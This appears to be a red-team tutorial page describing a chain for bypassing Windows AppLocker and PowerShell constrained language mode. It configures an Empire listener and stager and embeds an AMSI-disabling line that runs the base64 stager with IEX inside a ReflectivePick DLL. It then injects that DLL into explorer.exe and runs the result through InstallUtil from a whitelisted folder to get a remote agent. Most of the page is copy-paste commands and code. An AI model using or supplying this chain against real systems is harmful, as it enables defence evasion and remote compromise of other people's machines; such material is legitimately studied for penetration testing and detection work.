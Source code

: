 # Bypassing Applocker and Powershell contstrained language mode

## Using Reflective Injection and Certutil

This technique involves packing everything together several times to bypass all the security mechanisms. I based this on the [awesome article ](https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell)from Improsec called "Babushka dolls" and elements from it's Github project.

**Edit: Sadly after Windows 10 1803 and onwards this trick doesn't work for bypassing AMSI any longer. AMSI now uses a scanbuffer instead of scanstring which was previously used.**

### Generating listener and stager in Empire

Set up a listener and generate a stager. I've put all the commands below for easy copypaste.

```text
./Empire
listeners
uselistener
set Host 10.0.0.15
set Port 80
execute
back
usestager multi/launcher
set Listener http
generate
```

![](../.gitbook/assets/image%20%2815%29.png)

![](../.gitbook/assets/image%20%2814%29.png)

### ReflectivePick with Visual Studio

We are now going to write the stager we generated into the ReflectivePick project.

Open the [PowerPick project ](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick/ReflectivePick)in VS. It may be necessary to set the target to x64. Project -&gt; ReflectivePick properties -&gt; Configuration Manager -&gt; Platform

![](../.gitbook/assets/image%20%2817%29.png)

Add the base64 from the stager where appropriate.

![](../.gitbook/assets/image%20%2819%29.png)

`wchar_t* argument = L"[Ref].Assembly.GetType('System.Management.Automation.sAmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true);$encoded = \"BASE64STRING\";$decoded = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encoded));$decoded | Out-File -FilePath C:\Windows\Tasks\out.txt;IEX $decoded"; //Output debug`

This includes an output write for demonstration purposes. You can remove it if you desire.

Compile the dll to `ReflectivePick_x64.dll`

![](../.gitbook/assets/image%20%2827%29.png)

### Execution

We can now try to run the dll with `rundll32.exe .\ReflectivePick_x64.dll,Void` but as you will soon discover, AMSI picks up the Empire stager during runtime.

![](../.gitbook/assets/image%20%2810%29.png)

Disable AMSI however, and you get an agent back.

![](../.gitbook/assets/image%20%2839%29.png)

You can also view the base64-decoded stager payload in `c:\windows\tasks\out.txt`

![](../.gitbook/assets/image%20%285%29.png)

We can't rely on manually disabling AMSI, so we are going to run it through a few more hoops.

### Load the DLL into another process

To avoid creating a new process and loading the non-whitelisted DLL we are going to reflectively inject it into a process using [Invoke-ReflectiveInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1).

 Use the following commands in PS to encode the DLL to base64 and pipe the results to a file. Don't worry if the commands take a few seconds to run. I have also noticed that Powershell adds a newline at the bottom of the file when Base64-encoding like this so manually remove that if it is present.

```text
$Content = Get-Content .\ReflectivePick_x64.dll -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\users\chris\Desktop\PowerTools-master\PowerPick\bin\x64\Debug\dll.txt"
```

![](../.gitbook/assets/image%20%288%29.png)

Now you want to download [Invoke-ReflectivePEInjection](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1) to the working directory and open it in a text editor. At the bottom of the file, add the following lines, where we copypaste the contents of `dll.txt` to the `$dllData` object. This will ensure the dll is reflectively injected into the `explorer.exe` process during runtime.

```text
$dllData = "DLLBASE64_GOES_HERE"
$ProcId = (Get-Process explorer).Id
$Bytes = [System.Convert]::FromBase64String($dllData)
Invoke-ReflectivePEInjection -PEBytes $Bytes -ProcId $ProcId
```

![](../.gitbook/assets/image%20%2836%29.png)

### Compile to an EXE using VS

In powershell, base64 encode the entire script. Remove the newline at the bottom of the output file if present.

```text
$Content = Get-Content .\Invoke-ReflectivePEInjection.ps1 -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\users\chris\Desktop\PowerTools-master\PowerPick\bin\x64\Debug\pe.txt"
```

![](../.gitbook/assets/image%20%2834%29.png)

Open the [Bypass project](https://github.com/MortenSchenk/Babuska-Dolls/tree/master/Bypass) in VS and copypaste the base64 into the encoded variable. Compile to `Bypass.exe` with VS.

![](../.gitbook/assets/image%20%2823%29.png)

### Final execution

Use `installutil.exe` or similar [LOLbBns ](https://github.com/LOLBAS-Project/LOLBAS/blob/master/LOLBins.md)to execute `Bypass.exe`. If Applocker is present, execute it from a whitelisted directory such as `C:\Windows\Tasks`

```text
C:\windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe 
```

![](../.gitbook/assets/image%20%287%29.png)

![](../.gitbook/assets/image%20%2813%29.png)

Thrilling! We bypassed both Applocker and Powershell constrained language mode and got an Empire agent back.


